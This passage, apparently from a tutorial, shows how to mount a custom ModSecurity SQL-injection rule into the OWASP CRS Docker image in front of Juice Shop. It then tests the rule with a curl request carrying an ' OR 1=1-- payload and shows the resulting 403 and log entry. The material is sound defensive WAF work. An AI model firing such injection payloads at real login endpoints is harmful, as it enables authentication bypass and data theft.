msg:'Custom SQLi Rule',\
chain"
SecRule REQUEST_HEADERS:Content-Type "application/json"
EOF
Purpose: This rule matches a classic SQL injection pattern and only triggers if the Content-Type is application/json.
Modify docker-compose.yml to mount your custom rule file:
services:
modsecurity:
image: owasp/modsecurity-crs:nginx
volumes:
- ./custom-rules.conf:/etc/modsecurity.d/owasp-crs/rules/custom-rules.conf:ro
environment:
- BACKEND=http://juice-shop:3000
ports:
- "8080:8080"
🔒 Use :ro to ensure the rule file is read-only within the container. 📁 Rules must be mounted in: /etc/modsecurity.d/owasp-crs/rules/
🔁 Step 3: Automatic Inclusion No manual Include is needed — CRS automatically loads all .conf files in the rules/ directory:
# Already included in CRS:
Include /etc/modsecurity.d/owasp-crs/rules/*.conf
Restart the containers and send a test SQLi payload:
# Restart containers
docker-compose down && docker-compose up -d
# Test with curl
curl -v http://localhost:8080/rest/user/login \
-H "Content-Type: application/json" \
-d '{"email":"\\'\'' OR 1=1--", "password":"x"}'
🟢 Response:
< HTTP/1.1 403 Forbidden
< Server: nginx
< Date: Sat, 12 Apr 2025 19:56:29 GMT
< Content-Type: text/plain
< Content-Length: 146
< Connection: keep-alive
< Access-Control-Allow-Origin: *
< Access-Control-Max-Age: 3600
< Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
< Access-Control-Allow-Headers: *
<
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx</center>
</body>
</html>
Check if your custom rule triggered by viewing logs:
docker-compose logs modsecurity | grep 'id "1005"'
log entry:
modsecurity-1 | 2025/04/12 19:56:29 [error] 547#547: *31 [client 172.18.0.1] ModSecurity: Access denied with code 403 (phase 2). Matched "Operator `Rx' with parameter `application/json' against variable `REQUEST_HEADERS:Content-Type' (Value: `application/json' ) [file "/etc/modsecurity.d/owasp-crs/rules/custom-rules.conf"] [line "1"] [id "1005"] [rev ""] [msg "Custom SQLi Rule"] [data ""] [severity "0"] [ver ""] [maturity "0"] [accuracy "0"] [tag "modsecurity"] [tag "modsecurity"] [hostname "172.18.0.3"] [uri "/rest/user/login"] [unique_id "174448778951.660669"] [ref "o11,11o11,1v138,40o0,11o0,1v11,11o0,16v102,16"], client: 172.18.0.1, server: localhost, request: "POST /rest/user/login HTTP/1.1", host: "localhost:8080"





